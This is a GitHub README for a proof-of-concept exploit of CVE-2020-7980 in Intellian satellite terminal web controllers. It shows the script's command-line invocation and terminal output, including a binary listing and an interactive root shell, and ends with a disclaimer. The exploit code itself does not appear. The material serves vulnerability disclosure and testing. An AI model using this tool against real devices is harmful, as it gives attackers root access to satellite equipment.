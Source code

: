 # Satellian-CVE-2020-7980
Satellian is a PoC script that shows RCE vulnerability over Intellian Satellite controller (Intellian Aptus Web).

The following script will try to list all the binaries in the system and afterwards will allow the tester to interact directly with the server (usually as root).

# PoC
```
xh4h@Macbook-xh4h ~/Satellian> python satellian.py -u http://<redacted>
                  ________________________________________
         (__)    /                                        \
         (oo)   (     Intellian Satellite Terminal PoC     )
  /-------\/ --' \________________________________________/ 
 / |     ||
*  ||----||             

Performing initial scan. Listing available system binaries.
Starting request to http://<redacted>
Executing command /bin/ls /bin
acu_server
acu_tool
addgroup
adduser
...

Satellian $ id
uid=0(root) gid=0(root)
```

# Tested versions
Intellian v1.12, v1.21, v1.24.


# Disclaimer
All the information in this repository is for educational purposes only. The author of the repository is in no way responsible for any misuse of the information. This script is just a proof of concept, and has not been in no way developed for malicious activities.

